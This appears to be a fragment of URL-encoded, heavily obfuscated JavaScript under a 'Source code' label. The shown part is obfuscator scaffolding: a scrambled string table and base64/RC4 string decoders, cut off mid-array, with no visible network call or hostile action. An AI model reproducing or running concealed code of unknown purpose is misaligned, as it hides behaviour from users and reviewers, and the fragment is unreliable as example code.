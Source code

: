 n%3Di(n)%3Blet%20t%3Bfor(t%3D0x0%3Bt%3C0x100%3Bt%2B%2B)%7Bp%5Bt%5D%3Dt%3B%7Dfor(t%3D0x0%3Bt%3C0x100%3Bt%2B%2B)%7Bq%3D(q%2Bp%5Bt%5D%2Bo%5BA(0x336)%2BA(0x2ba)%2BA(0x2a6)%2B'%5Cx74'%5D(t%25o%5BA(0x40e)%2BA(0x3d6)%5D))%250x100%2Cr%3Dp%5Bt%5D%2Cp%5Bt%5D%3Dp%5Bq%5D%2Cp%5Bq%5D%3Dr%3B%7Dt%3D0x0%2Cq%3D0x0%3Bfor(let%20u%3D0x0%3Bu%3Cn%5BA(0x40e)%2BA(0x3d6)%5D%3Bu%2B%2B)%7Bt%3D(t%2B0x1)%250x100%2Cq%3D(q%2Bp%5Bt%5D)%250x100%2Cr%3Dp%5Bt%5D%2Cp%5Bt%5D%3Dp%5Bq%5D%2Cp%5Bq%5D%3Dr%2Cs%2B%3DString%5BA(0x28b)%2BA(0x357)%2BA(0x2dc)%2BA(0x232)%5D(n%5BA(0x336)%2BA(0x2ba)%2BA(0x2a6)%2B'%5Cx74'%5D(u)%5Ep%5B(p%5Bt%5D%2Bp%5Bq%5D)%250x100%5D)%3B%7Dreturn%20s%3B%7D%3B_0x4c70%5By(0x24d)%2By(0x1ea)%5D%3Dm%2Cc%3Darguments%2C_0x4c70%5By(0x2d3)%2By(0x3bb)%5D%3D!!%5B%5D%3B%7Dconst%20j%3De%5B0x0%5D%2Ck%3Df%2Bj%2Cl%3Dc%5Bk%5D%3Breturn!l%3F(_0x4c70%5By(0x1de)%2By(0x2a5)%5D%3D%3D%3Dundefined%26%26(_0x4c70%5By(0x1de)%2By(0x2a5)%5D%3D!!%5B%5D)%2Ch%3D_0x4c70%5By(0x24d)%2By(0x1ea)%5D(h%2Cg)%2Cc%5Bk%5D%3Dh)%3Ah%3Dl%2Ch%3B%7D%2C_0x4c70(c%2Cd)%3B%7Dfunction%20_0x5589(c%2Cd)%7Bconst%20e%3D_0x42d9()%3Breturn%20_0x5589%3Dfunction(f%2Cg)%7Bconst%20B%3Db%3Bf%3Df-0x1db%3Blet%20h%3De%5Bf%5D%3Bif(_0x5589%5BB(0x35c)%2BB(0x1f6)%5D%3D%3D%3Dundefined)%7Bvar%20i%3Dfunction(m)%7Bconst%20C%3DB%2Cn%3DC(0x246)%2BC(0x200)%2BC(0x38c)%2BC(0x255)%2BC(0x266)%2BC(0x2de)%2BC(0x425)%2BC(0x422)%2BC(0x24b)%2BC(0x441)%2BC(0x435)%2BC(0x399)%2BC(0x370)%2BC(0x3ce)%2BC(0x3e0)%2BC(0x2d7)%2BC(0x3a4)%2BC(0x31c)%2BC(0x46c)%2BC(0x352)%2BC(0x24e)%2B'%5Cx2f%5Cx3d'%3Blet%20o%3D''%2Cp%3D''%3Bfor(let%20q%3D0x0%2Cr%2Cs%2Ct%3D0x0%3Bs%3Dm%5BC(0x336)%2BC(0x303)%5D(t%2B%2B)%3B~s%26%26(r%3Dq%250x4%3Fr*0x40%2Bs%3As%2Cq%2B%2B%250x4)%3Fo%2B%3DString%5BC(0x28b)%2BC(0x357)%2BC(0x2dc)%2BC(0x232)%5D(0xff%26r%3E%3E(-0x2*q%260x6))%3A0x0)%7Bs%3Dn%5BC(0x2d1)%2BC(0x371)%2B'%5Cx66'%5D(s)%3B%7Dfor(let%20u%3D0x0%2Cv%3Do%5BC(0x40e)%2BC(0x3d6)%5D%3Bu%3Cv%3Bu%2B%2B)%7Bp%2B%3D'%5Cx25'%2B('%5Cx30%5Cx30'%2Bo%5BC(0x336)%2BC(0x2ba)%2BC(0x2a6)%2B'%5Cx74'%5D(u)%5BC(0x35e)%2BC(0x2e6)%2B'%5Cx6e%5Cx67'%5D(0x10))%5BC(0x380)%2B'%5Cx63%5Cx65'%5D(-0x2)%3B%7Dreturn%20decodeURIComponent(p)%3B%7D%3B_0x5589%5BB(0x245)%2BB(0x223)%5D%3Di%2Cc%3Darguments%2C_0x5589%5BB(0x35c)%2BB(0x1f6)%5D%3D!!%5B%5D%3B%7Dconst%20j%3De%5B0x0%5D%2Ck%3Df%2Bj%2Cl%3Dc%5Bk%5D%3Breturn!l%3F(h%3D_0x5589%5BB(0x245)%2BB(0x223)%5D(h)%2Cc%5Bk%5D%3Dh)%3Ah%3Dl%2Ch%3B%7D%2C_0x5589(c%2Cd)%3B%7Dfunction%20_0x42d9()%7Bconst%20D%3Db%2Cc%3D%5BD(0x2db)%2BD(0x3c5)%2B'%5Cx43'%2CD(0x3c0)%2BD(0x1e5)%2B'%5Cx30%5Cx75'%2CD(0x268)%2BD(0x26c)%2B'%5Cx6b%5Cx39'%2CD(0x3de)%2BD(0x308)%2BD(0x2f1)%2B'%5Cx4b%5Cx38'%2CD(0x3e4)%2BD(0x39a)%2BD(0x22a)%2B'%5Cx71'%2CD(0x2eb)%2BD(0x2da)%2BD(0x325)%2B'%5Cx57'%2CD(0x2f0)%2BD(0x3cd)%2B'%5Cx71'%2CD(0x280)%2BD(0x20e)%2BD(0x377)%2B'%5Cx61'%2CD(0x2d4)%2BD(0x284)%2BD(0x34e)%2B'%5Cx47'%2CD(0x373)%2BD(0x358)%2BD(0x3c8)%2B'%5Cx71'%2CD(0x241)%2B'%5Cx67'%2CD(0x354)%2B'%5Cx37'%2CD(0x3ee)%2BD(0x2f7)%2B'%5Cx47'%2CD(0x30d)%2BD(0x23d)%2B'%5Cx30'%2CD(0x25b)%2BD(0x1e1)%2BD(0x37d)%2B'%5Cx4c%5Cx6d'%2CD(0x359)%2BD(0x3a2)%2B'%5Cx6d'%2CD(0x2f5)%2BD(0x294)%2BD(0x403)%2BD(0x455)%2CD(0x475)%2BD(0x3a0)%2BD(0x2a9)%2BD(0x1f0)%2CD(0x1ee)%2BD(0x2c7)%2B'%5Cx6f%5Cx31'%2CD(0x388)%2BD(0x448)%2B'%5Cx71'%2CD(0x443)%2B'%5Cx5a'%2CD(0x21d)%2BD(0x225)%2B'%5Cx61'%2CD(0x315)%2BD(0x204)%2BD(0x368)%2B'%5Cx61'%2CD(0x2dd)%2BD(0x1e0)%2BD(0x3df)%2B'%5Cx37%5Cx65'%2CD(0x38f)%2BD(0x3fe)%2B'%5Cx4f%5Cx36'%2CD(0x3d9)%2BD(0x1d7)%2B'%5Cx6b%5Cx37'%2CD(0x335)%2BD(0x30e)%2B'%5Cx71'%2CD(0x3b1)%2BD(0x450)%2BD(0x32a)%2BD(0x324)%2BD(0x37b)%2B'%5Cx67'%2CD(0x275)%2BD(0x3d2)%2CD(0x2e0)%2BD(0x37a)%2BD(0x1d8)%2BD(0x42e)%2BD(0x2c5)%2BD(0x263)%2BD(0x3ca)%2B'%5Cx61'%2CD(0x27b)%2BD(0x40d)%2BD(0x407)%2B'%5Cx51%5Cx4f'%2CD(0x265)%2BD(0x2f9)%2B'%5Cx53'%2CD(0x43a)%2BD(0x47d)%2B'%5Cx34'%2CD(0x3dc)%2BD(0x3ad)%2B'%5Cx6d'%2CD(0x406)%2BD(0x292)%2B'%5Cx6d'%2CD(0x430)%2BD(0x3e3)%2B'%5Cx6d'%2CD(0x206)%2BD(0x217)%2BD(0x409)%2B'%5Cx61'%2CD(0x1e7)%2BD(0x286)%2B'%5Cx75'%2CD(0x213)%2BD(0x3f8)%2BD(0x319)%2B'%5Cx4f%5Cx69'%2CD(0x297)%2BD(0x466)%2B'%5Cx79'%2CD(0x387)%2BD(0x34a)%2B'%5Cx71'%2CD(0x27c)%2BD(0x29a)%2BD(0x436)%2B'%5Cx61'%2CD(0x328)%2BD(0x2e4)%2B'%5Cx39%5Cx76'%2CD(0x36f)%2BD(0x45e)%2BD(0x383)%2B'%5Cx47%5Cx34'%2CD(0x3ec)%2BD(0x25e)%2CD(0x23e)%2BD(0x3e6)%2B'%5Cx71'%2CD(0x290)%2BD(0x348)%2B'%5Cx4b'%2CD(0x472)%2BD(0x212)%2BD(0x29d)%2BD(0x1e8)%2CD(0x2f4)%2BD(0x42b)%2BD(0x28a)%2B'%5Cx4f%5Cx79'%2CD(0x428)%2BD(0x310)%2B'%5Cx34'%2CD(0x342)%2BD(0x2ad)%2B'%5Cx71'%2CD(0x39f)%2BD(0x2a3)%2B'%5Cx65'%2CD(0x227)%2BD(0x28c)%2B'%5Cx71'%2CD(0x323)%2BD(0x25c)%2BD(0x458)%2BD(0x203)%2BD(0x37e)%2BD(0x252)%2B'%5Cx61'%2CD(0x3c7)%2BD(0x45c)%2BD(0x3db)%2B'%5Cx61'%2CD(0x3a8)%2BD(0x3f3)%2BD(0x385)%2B'%5Cx47'%2CD(0x288)%2BD(0x39a)%2BD(0x3e2)%2B'%5Cx71'%2CD(0x23f)%2BD(0x258)%2B'%5Cx6b%5Cx54'%2CD(0x43d)%2BD(0x32f)%2BD(0x20f)%2B'%5Cx52%5Cx4f'%2CD(0x248)%2BD(0x3ba)%2B'%5Cx6d'%2CD(0x36e)%2BD(0x382)%2BD(0x439)%2B'%5Cx71'%2CD(0x381)%2BD(0x2c8)%2BD(0x464)%2BD(0x2d0)%2B'%5Cx4e%5Cx71'%2CD(0x417)%2BD(0x2f7)%2B'%5Cx47'%2CD(0x374)%2BD(0x46e)%2B'%5Cx39%5Cx30'%2CD(0x45f)%2BD(0x301)%2BD(0x36a)%2B'%5Cx51%5Cx61'%2CD(0x2cf)%2BD(0x3a2)%2B'%5Cx38'%2CD(0x38d)%2BD(0x259)%2CD(0x3b9)%2BD(0x3af)%2B'%5Cx4f%5Cx55'%2CD(0x428)%2BD(0x386)%2CD(0x421)%2BD(0x2d9)%2BD(0x3f0)%2B'%5Cx51%5Cx4b'%2CD(0x3b4)%2BD(0x366)%2B'%5Cx47%5Cx55'%2CD(0x322)%2BD(0x2fb)%2B'%5Cx65'%2CD(0x3e9)%2BD(0x289)%2B'%5Cx4b'%2CD(0x1ec)%2BD(0x31d)%2BD(0x254)%2B'%5Cx37%5Cx30'%2CD(0x2f8)%2BD(0x271)%2BD(0x1e4)%2B'%5Cx4f%5Cx47'%2CD(0x40b)%2BD(0x21f)%2BD(0x427)%2BD(0x274)%2BD(0x28d)%2BD(0x351)%2CD(0x369)%2BD(0x299)%2B'%5Cx71'%2CD(0x2e5)%2BD(0x251)%2B'%5Cx34'%2CD(0x47c)%2BD(0x327)%2B'%5Cx38'%2CD(0x337)%2BD(0x434)%2BD(0x367)%2B'%5Cx47'%2CD(0x242)%2BD(0x26d)%2B'%5Cx61'%2CD(0x296)%2BD(0x27d)%2B'%5Cx79'%2CD(0x32c)%2BD(0x2c6)%2B'%5Cx34'%2CD(0x44e)%2BD(0x1fe)%2B'%5Cx61'%2CD(0x237)%2BD(0x1f4)%2B'%5Cx75'%2CD(0x424)%2BD(0x2bd)%2BD(0x1e3)%2BD(0x2ff)%2CD(0x2ae)%2BD(0x3c1)%2BD(0x317)%2B'%5Cx61'%2CD(0x34c)%2BD(0x1f2)%2B'%5Cx61'%2CD(0x413)%2BD(0x394)%2B'%5Cx4b'%2CD(0